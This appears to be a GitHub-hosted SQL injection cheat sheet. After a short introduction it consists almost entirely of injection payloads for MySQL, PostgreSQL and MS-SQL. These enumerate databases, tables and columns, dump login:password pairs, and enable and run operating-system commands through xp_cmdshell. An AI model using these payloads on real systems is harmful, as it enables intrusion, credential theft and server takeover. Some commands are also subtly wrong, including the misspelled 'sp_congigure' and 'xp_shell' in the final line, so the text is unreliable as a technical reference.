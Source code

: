 # SQL injection 

## Introduction

    It is an attack in which an attacker inserts untrusted data in the application that results in revealing sensitive information of the database. 

    SQL Injection (SQLi) is a code injection attack where an attacker manipulates the data being sent to the server to execute malicious SQL statements to control a web application’s database server, thereby accessing, modifying and deleting unauthorized data. This attack is mainly used to take over database servers. 

- In-band SQLi (Classic SQLi) 
- Error-based SQLi
- Union-based SQLi 
- Inferential SQLi (Blind SQLi) 
- Boolean-based (content-based) Blind SQLi 
- Time-based Blind SQLi 
- Out-of-band SQLi 

## How to exploit
# SQLI tricks

## GET

### Error-Based

### Simple test

`Adding a simpe quote '`

Example: `http://vulnerable-website.com/Less-1/?id=5'`

### Fuzzing

Sorting columns to find maximum column

`http://vulnerable-website.com/Less-1/?id=-1 order by 1`

`http://vulnerable-website.com/Less-1/?id=-1 order by 2`

`http://vulnerable-website.com/Less-1/?id=-1 order by 3`

(until it stop returning errors)

---


### Finding what column is injectable

**mysql**
`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, 3` (using the same amount of columns you got on the previous step)

**postgresql**
`http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, NULL` (using the same amount of columns you got on the previous step)

 one of the columns will be printed with the respective number

---


#### Finding version

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, version()` **mysql**
`http://vulnerable-website.com/Less-1/?id=-1 union select NULL, NULL, version()` **postgres**s


#### Finding database name

`http://vulnerable-website.com/Less-1/?id=-1 union select 1,2, database()` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select NULL,NULL, database()` **postgres**


#### Finding usernames logged in

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, current_user()` **mysql**


#### Finding databases

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, schema_name from information_schema.schemata` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, datname from pg_database` **postgres**


#### Finding table names from a database

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, table_name from information_schema.tables where table_schema="database_name"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, tablename from pg_tables where table_catalog="database_name"` **postgres**


#### Finding column names from a table

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_schema="database_name" and table_name="tablename"` **mysql**

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, column_name from information_schema.columns where table_catalog="database_name" and table_name="tablename"` **postgres**

#### Concatenate

Example:

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login from users;`
`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, password from users;`

in one query

`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, concat(login,':',password) from users;` **mysql**
`http://vulnerable-website.com/Less-1/?id=-1 union select 1, 2, login||':'||password from users;` **postgres**


### Error Based SQLI (USUALLY MS-SQL)

#### Current user

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096)))--`


#### DBMS version

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096)))--`


#### Database name

`http://vulnerable-website.com/Less-1/?id=-1 or db_name(0)=0 --`


#### Tables from a database

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U')--`

---

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(name as varchar(4096)) FROM dbname..sysobjects where xtype='U' AND name NOT IN ('previouslyFoundTable',...))--`


#### Columns within a table


`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename')--`

> remember to change **dbname** and **tablename** accordingly with the given situation
> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(dbname..syscolumns.name as varchar(4096)) FROM dbname..syscolumns, dbname..sysobjects WHERE dbname..syscolumns.id=dbname..sysobjects.id AND dbname..sysobjects.name = 'tablename' AND dbname..syscolumns.name NOT IN('previously found column name', ...))--`


#### Actual data


`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename)--`

> after each iteration a new column name will be found, make sure add it to ** previously found column name ** separated by comma as on the next sample

`http://vulnerable-website.com/Less-1/?id=-1 or 1 in (SELECT TOP 1 CAST(columnName as varchar(4096)) FROM tablename AND name NOT IN('previously found row data'))--`


#### Shell commands

`EXEC master..xp_cmdshell <command>`

> you need yo be 'sa' user

#### Enabling shell commands

`EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_congigure 'xp_shell', 1; RECONFIGURE;`
